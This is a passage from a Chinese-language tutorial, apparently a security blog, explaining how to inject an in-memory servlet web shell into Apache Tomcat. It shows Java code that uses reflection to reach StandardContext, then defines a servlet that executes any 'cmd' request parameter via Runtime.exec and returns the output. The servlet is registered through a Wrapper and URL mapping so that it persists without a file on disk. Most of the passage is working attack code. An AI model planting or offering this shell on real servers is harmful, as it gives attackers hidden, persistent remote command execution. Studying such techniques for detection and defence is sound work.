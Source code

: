 第一个：找到`StandardContext`，代码如下  
```java  
ServletContext servletContext = request.getSession().getServletContext();  
        Field appctx = servletContext.getClass().getDeclaredField(&#34;context&#34;);  
        appctx.setAccessible(true);  
        ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);  
        Field stdctx = applicationContext.getClass().getDeclaredField(&#34;context&#34;);  
        stdctx.setAccessible(true);  
        StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);  
```  
上述代码意思就是从当前`HttpServletRequest`中获取`ServletContext`对象，然后利用反射机制获取`ServletContext`类中名为`context`的私有字段，并赋值给`Field`类型的变量`appctx`，把这个变量的属性设置为可访问，这样可以通过反射获取它的值。接着继续使用反射机制来获取`ApplicationContext`类中名为`context`的私有字段，并赋值给`Field`类型的变量`stdctx`，同样将其设置为可访问；最后通过反射获取`ApplicationContext`对象的私有字段`context`的值，并将其强制类型转换为`StandardContext`，到这里，成功找到了`StandardContext`。  
接着第二个任务：继承并编写一个恶意`servlet`，代码如下  
```java  
Servlet servlet = new Servlet() {  
            @Override  
            public void init(ServletConfig servletConfig) {}  
            @Override  
            public ServletConfig getServletConfig() {  
                return null;  
            }  
            @Override  
            public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws IOException {  
                String cmd = servletRequest.getParameter(&#34;cmd&#34;);  
                {  
                    InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();  
                    Scanner s = new Scanner(in, &#34;GBK&#34;).useDelimiter(&#34;\\A&#34;);  
                    String output = s.hasNext() ? s.next() : &#34;&#34;;  
                    servletResponse.setCharacterEncoding(&#34;GBK&#34;);  
                    PrintWriter out = servletResponse.getWriter();  
                    out.println(output);  
                    out.flush();  
                    out.close();  
                }  
            }  
            @Override  
            public String getServletInfo() {  
                return null;  
            }  
            @Override  
            public void destroy() {  
            }  
        };  
```  
接着后续的六个任务：创建`Wrapper`对象、设置`Servlet`的`LoadOnStartUp`的值，设置`Servlet`的`Name`、设置`Servlet`对应的`Class`、将`Servlet`添加到`context`的`children`中、将`url`路径和`servlet`类做映射  
```java  
Wrapper wrapper = standardContext.createWrapper();  
wrapper.setName(servletName);  
wrapper.setServlet(servlet);  
wrapper.setServletClass(servlet.getClass().getName());  
wrapper.setLoadOnStartup(1);  
standardContext.addChild(wrapper);  
standardContext.addServletMappingDecoded(servletURL, servletName);  
```  
其中`standardContext.addChild(wrapper);`是为了让我们自定义的`servlet`成为`Web`应用程序的一部分；然后`standardContext.addServletMappingDecoded(servletURL, servletName);`也可以写成如下形式  
```java  
// 要引入：&lt;%@ page import=&#34;org.apache.catalina.core.ApplicationServletRegistration&#34; %&gt;  
ServletRegistration.Dynamic dynamic = new ApplicationServletRegistration(wrapper, standardContext);  
dynamic.addMapping(servletURL);  
```
